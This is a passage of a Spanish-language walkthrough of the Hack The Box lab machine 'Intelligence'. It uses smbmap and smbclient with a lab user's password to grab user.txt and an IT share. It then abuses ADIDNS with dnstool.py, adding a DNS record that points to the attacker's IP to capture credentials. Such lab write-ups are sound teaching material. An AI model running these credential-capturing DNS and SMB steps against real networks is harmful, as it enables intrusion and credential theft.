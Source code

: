 <figure><img src="../../../../../.gitbook/assets/1033_vmware_xRUGphhXaH.png" alt=""><figcaption></figcaption></figure>

Con la herramienta de **smbmap** procederemos a comprobar el directorio de (Users/Tiffany.Molin/Desktop) y vemos que encontramos la flag de **user.txt**, la descargaremos con **smbmap** mismo.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r Users/Tiffany.Molina/Desktop
<strong>
</strong><strong>smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download Users/Tiffany.Molina/Desktop/user.txt
</strong><strong>
</strong><strong>mv 10.10.10.248-Users_Tiffany.Molina_Desktop_user.txt user.txt
</strong>
catnp user.txt
</code></pre>

<figure><img src="../../../../../.gitbook/assets/1038_vmware_iIXV2tTnd6.png" alt="" width="563"><figcaption></figcaption></figure>

Con **smbclient** procederemos a conectarnos al recurso compartido "IT" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.248/IT -U 'Tiffany.Molina%NewIntelligenceCorpUser9876
```

<figure><img src="../../../../../.gitbook/assets/1034_vmware_A7cxT8ZUin (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado un script en un recurso SMB que realiza comprobaciones del estado de servidores web registrados en Active Directory. El script itera sobre los registros DNS que comienzan con "web" y, si no recibe un estado 200 de respuesta, envía un correo electrónico a "Ted Graves".

```bash
cat downdetector.ps1
```

<figure><img src="../../../../../.gitbook/assets/1035_vmware_O2enpmraye.png" alt=""><figcaption></figcaption></figure>

## Creating a DNS Record (dnstool.py) \[Abusing ADIDNS]

Para aprovechar una vulnerabilidad en el entorno de Active Directory, utilicé la herramienta **dnstool.py** para crear un registro DNS que redirige las solicitudes a mi dirección IP. Esto permite que, al verificar el estado del servidor web, se utilicen las credenciales del usuario que está definido en "UseDefaultCredentials".

Una vez añadido el registor DNS, procederemos con el siguiente punto.

{% code overflow="wrap" %}
```bash
python3 /opt/krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webgzzcoo -a add -t A -d 10.10.14.13 10.10.10.248
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1041_vmware_yXdrw6Bz2U.png" alt=""><figcaption></figcaption></figure>
